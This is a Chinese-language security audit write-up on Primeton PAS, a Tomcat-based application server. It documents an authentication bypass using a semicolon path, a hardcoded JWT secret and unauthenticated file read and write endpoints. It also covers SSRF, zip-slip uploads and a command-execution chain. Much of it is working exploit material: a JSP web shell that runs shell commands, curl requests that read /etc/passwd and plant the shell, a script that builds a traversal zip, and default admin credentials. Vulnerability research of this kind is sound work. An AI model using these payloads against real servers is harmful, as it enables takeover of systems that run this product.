普元中间件，换皮tomcat

## 信息收集

**目录结构**

```
bin/  conf/  lib/  logs/  temp/  webapps/  work/
```

是tomcat的特征

conf中有配置文件

### 端口与网络面

- /conf/pas.properties

```
JAVA_DEBUGGER_PORT=9009        ← JPDA 调试端口
HTTP_LISTENER_PORT=8080        ← 业务 HTTP
HTTPS_LISTENER_PORT=8181       ← 业务 HTTPS
ADMIN_LISTENER_PORT=6888       ← 管理端口（主攻击面）
SHUTDOWN_LISTENER_PORT=7055    ← shutdown 口令端口
TELNET_LISTENER_PORT=9999      ← 待确认用途
PROMETHEUS_AGENT_PORT=8001     ← 监控暴露面
```

6888是管理端口，攻击面

### admin目录

```
admin/
├── admin-war/          ← 挂在 / 的管理控制台
│   ├── static/         ← Vue 打包前端（js/css/图片）
│   └── WEB-INF/classes/← 控制台后端 .class（自研代码）
├── agent-war/          ← 挂在 /pas-agent 的 agent
│   └── WEB-INF/classes/← agent 后端 .class（自研代码）
├── admin-data/         ← 运行时数据：用户库/配置/分发包/快照
└── logs/  tmp/
```

负责管理页面

### 启动进程

- /bin/startup.bat是启动脚本，刚开始启动的时候，license过期了，把系统日期改为7月份解决

```
sudo timedatectl set-ntp false
sudo date -s "2026-07-20 $(date +%H:%M:%S)"
```



- /conf/primetonlicense.xml是license所在，可以看到8.6过期

账号密码：`admin/primeton`

`bin/startup.bat` → `pas.bat` → `bootstrap.jar`：JVM 进程链

**结论**

这是一个tomcat换皮的java应用服务器，之后选择把厂商自研代码抽出来

## sink反查

从危险函数（sink）触发，反向追踪数据来源

先从ai把自研的部分抽出来到一个文件夹中`audit-src`

**搜索字符串**

```
# -r:递归搜索目录		-l:只列出文件名	--include:只匹配.class
grep -rl "FileOutputStream" . --include="*.class"
```



**侦察类**

```
# 查看暴露的方法
# 反汇编某个 Java 类并显示包括 private 成员在内的信息
javap -p -cp javap -p -cp admin-console com.primeton.pas.admin.DeployController
```

```
# 查看内部字符串，筛选以/开头的字符串
strings -a admin-console/com/primeton/pas/admin/DeployController.class | grep -E "^/"
```



说明：

- 只有一个方法`deploy()`，参数是`MultipartFile`，是一个文件上传接口
- /deploy-vue是它的路由

尝试访问`ip:6888/api/deploy-vue`，说缺少Token 请求头: X-PAS-Token

这基本就是sink的流程


### 分号认证绕过至任意文件读写漏洞

在api路径前插入一个分号段`/;/api/xxx`，即可绕过控制台的jwt认证

#### 白盒审计

- `admin-console/com/primeton/pas/admin/user/auth/JwtFilter.class`



这里的问题在于：如果检测到是以`/api`开始的，就会直接放行

但是requestpath是通过读取`getRequestPath`，而不是`getRequestURI`，需要继续分析`getRequestPath`的功能

之后，除了白名单中的内容，要进行jwt校验

- `com.primeton.pas.admin.config.JavaConfigController`



方法都类似这种，没有权限注解，可以直接到达javaConfigService，读写JVM配置

- `com.primeton.pas.admin.user.controller.UserController`



类似地，usercontroller就有Permission注解来校验

- `\admin\admin-war\WEB-INF\lib\pas-admin-common-6.5.0.100.jar`

jar包使用jadx打开，有`getRequestPath`的功能



只处理了`//`，没有处理`;`

#### 整体利用链

攻击者发送请求`/;/api/config/java-config/init`，请求进入`JwtFilter`，之后进入`getRequestPath`，返回的内容是`getRequestURI`，原样返回`/;/api/config/java-config/init`

之后回到JwtFilter，不是以/api开头，不做任何认证放行

之后进入spring的servlet中，按照servlet的规范，会剥离`;`，得到参数是`/api/config/java-config/init`

参数进入`JavaConfigController`，读写JVM配置

#### 漏洞复现

确认正常路径被拦截

```
# 探测状态码，-w只输出状态码
curl -o /dev/null -w "%{http_code}\n" "$B/api/config/java-config/init"
```

加入`--path-as-is`参数（禁止curl自己规范URL）

```
curl --path-as-is -o /dev/null -w "%{http_code}\n" "$B/;/api/config/java-config/init"
```



读取配置

```
curl --path-as-is "$B/;/api/config/java-config/init"
```

之后尝试是否可以升级为RCE

最终尝试还是落到代理头伪造的接口上了


### jwt硬编码

```bash
# 搜索文件	-iname:忽略大小写
find . -iname "*jwt*"

# strings提取常量	-a:文件所有部分都扫描	-E:使用扩展正则
strings -a admin-console/com/primeton/pas/admin/user/auth/JwtUtils.class | grep -E "HMAC|sign|verify|=="
```



密钥为：`==^_^==`，jwt也没有传输敏感信息


### /pas-agent/api/deploy/接口多个任意文件上传

#### 漏洞复现

```
# 查找controller
find . -name "*Controller*"
```

- 最终定位到`/agent/com/primeton/pas/admin/agent/controller/AgentDeployController.class`

Deploy类天然危险，**部署**这个动作天然要读写文件、解压删除等

有完整的路由表，调用了`deployService`，继续分析



- `AgentDeployService`中有具体的实现方法

```java
	// 唯一的校验方法，制作了字符串替换
	private String replacePath(String path) {
        return path.replace("${pas.base}", PasAgentInfo.baseDir);
    }

	// 任意文件读
	public String getConfigContent(String filePath) {
        filePath = this.replacePath(filePath);
        File file = FileUtil.getFile(filePath);
        return CommonUtils.readFile(file);
    }
```

以及任意文件写、任意文件删等方法都有

- RCE实证



接口在`config-content`

```java
CommonUtils.writeFile(file, content); 
```

自动创建父目录，并进行写入

环境配置有autoDeploy，周期性扫描webapps/目录，新的jsp自动部署

准备jsp

```jsp
<%
String c = request.getParameter("c");
if (c == null) { out.print("PAS-RCE-PROOF-2026 alive"); }
else {
  java.io.InputStream is = Runtime.getRuntime().exec(new String[]{"/bin/sh","-c",c}).getInputStream();
  byte[] b = new byte[4096]; int n = is.read(b);
  out.print(n > 0 ? new String(b, 0, n) : "(no output)");
}
%>
```



```bash
# 不带伪造头		-i显示响应
curl -i --path-as-is "$B/pas-agent/"

# 带伪造头，添加参数："X-Real-IP: 127.0.0.1"
curl -i --path-as-is -H "X-Real-IP: 127.0.0.1" "$B/pas-agent/"
```



```bash
# 任意文件读
curl -i --path-as-is -H "X-Real-IP: 127.0.0.1" "$B/pas-agent/api/deploy/config-content?filePath=/etc/passwd"

# 上传jsp
curl --path-as-is -H "$H" -H "$CT" -X POST --data-binary '<% ... %>' "$B/pas-agent/api/deploy/config-content?file=/home/zhang/pas-web-6.5.2.101/webapps/ROOT/pas_rce_check.jsp"

# 命令执行
curl "http://192.168.73.153:8080/pas_rce_check.jsp?c=id"
```

#### 代码审计



直接解压到上传的参数中，没有校验

调用点：



两种上传文件姿势

- 接口未校验，实现了任意文件写

- 没有经过处理的路径存入之后，调用了一个方法`processingPatchFile`处理。这个方法又调用了`unzip`，也可以解压写到磁盘




### /api/upgrade/upload接口解压存在任意文件上传

需要先使用python新建一个含有../的zip，落盘到pas的temp后解压

zip上传需要登录后的token，在报exception之前就写入了

```bash
# 压缩包内新建一个条目，放入参数
python -c "
import zipfile
z = zipfile.ZipFile('/tmp/u8_slip.zip', 'w')
z.writestr('desc.properties', 'name=u8_slip\nversion=1.0\nno=U8-001\ntype=ADMIN\ntime=2026-09-29')
z.writestr('../../u8_s2.txt', 'SLIP-2LEVELS')
z.writestr('../../../u8_s3.txt', 'SLIP-3LEVELS')
z.close()
"

curl -s -H "X-PAS-Token: $T"   -F "file=@/tmp/u8_slip.zip;filename=u8_slip.zip"   "$B/api/upgrade/upload"
```



都可以直接写到webapps触发RCE


### /internal接口任意文件读写

#### 代码审计

jadx反编译`pas-admin-common-6.5.0.100.jar`

- DownloadController



任意文件下载，无校验，接口`/internal/download`

- UploadController

ssrf+任意写



其中，downloadClient：



可以确认，服务器会主动向外发送http请求，有出网能力，没有校验传入参数

而且会写入到本地



接口`/internal/download?path=`直接进行ssrf

#### 漏洞复现

```bash
B=http://192.168.73.153:6888

# 匿名任意写
curl -s --path-as-is -X POST -H "Content-Type: application/json" \
    -H "X-PAS-FromBaseUrl: http://127.0.0.1:6888" \
    -d '{"localPath":"/etc/hostname","remotePath":"/tmp/v06_write_probe.txt"}' \
    "$B/internal/upload"

# 任意文件读
curl -s --path-as-is "$B/internal/download?path=/etc/hostname"
```



之后写入webapps可以发展为匿名RCE

### /api/shnapshots/download快照接口任意文件读

定位到`\admin-console\com\primeton\pas\admin\snapshot\SnapshotController.class`



没有校验，能够任意读取，但是接口需要认证




### /node-local-client接口集群模式条件RCE

#### 代码审计



通过invoke调用了NodeClient代码

而NodeClient中有exec代码执行



继续跟踪到CmdUtils



漏洞利用链通，测试RCE需要集群模式才能够复现

理论上：

```
curl.exe -i -X POST -H "Content-Type: application/json" -H "X-Real-IP: 127.0.0.1" -d "{\"method\":\"isExists\",\"args\":[\"/etc/passwd\"]}" http://192.168.73.153:6888/node-local-client/invoke
```

其余也有很多其他漏洞，代表性不强

